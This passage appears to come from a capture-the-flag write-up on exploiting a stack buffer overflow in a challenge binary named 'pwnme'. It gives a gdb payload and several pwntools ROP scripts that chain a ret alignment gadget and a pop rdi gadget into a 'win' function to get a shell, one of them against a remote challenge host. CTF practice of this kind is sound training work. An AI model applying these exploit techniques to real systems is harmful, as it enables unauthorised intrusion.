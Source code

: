 We write a payload and it crash, it's because the *system* is not aligned (the *system* address don't end with `0` but with `8`, address is 8 bytes long so address end with `0` or `8`). To align the function address we can add an instruction, we will add a `ret` instruction.

To debug we can use *gdb* like this:

```gdb
(gdb) run < <(printf "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@\x12S\xde\xad\xbe\xef@\x11v")
```

To generate the payload:

```bash
python3 -c "from pwn import *; print(b'a' * 40 + p64(0x401253) + p64(0xdeadbeef) + p64(0x401176))"
```

Here is the python code to exploit the vulnerabilty and get the shell:

```python
from pwn import *
# c = process("/media/kali/Downloads/pwnme")
elf = ELF("/media/kali/Downloads/pwnme")      # get informations about the ELF file
"""
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled                      # shellcode not possible
    PIE:      No PIE (0x400000)
"""
c = remote("0.cloud.chals.io", 10711)
c.sendline(b"a" * 40 + p64(0x401253) + p64(0xdeadbeef) + p64(0x40101a) + p64(0x401176))
c.interactive()
```

Other python code to exploit the vulnerabilty and get the shell:

```python
from pwn import *

p = process("/media/kali/Downloads/pwnme")
elf = ELF("/media/kali/Downloads/pwnme")
rop = ROP(elf)

rop.raw(rop.find_gadget(['pop rdi', 'ret']).address)
rop.raw(0xdeadbeef)
rop.raw(elf.sym['win']) # ou elf.functions['win'].address

print(rop.dump())

p.sendline(flat({0x28: rop}))
p.interactive()
```

```python
from pwn import *

p = process("/media/kali/Downloads/pwnme")
elf = ELF("/media/kali/Downloads/pwnme")
rop = ROP(elf)

rop(rdi=0xdeadbeef)
rop.raw(elf.sym['win']) # ou elf.functions['win'].address

print(rop.dump())

p.sendline(flat({0x28: rop}))
p.interactive()
```
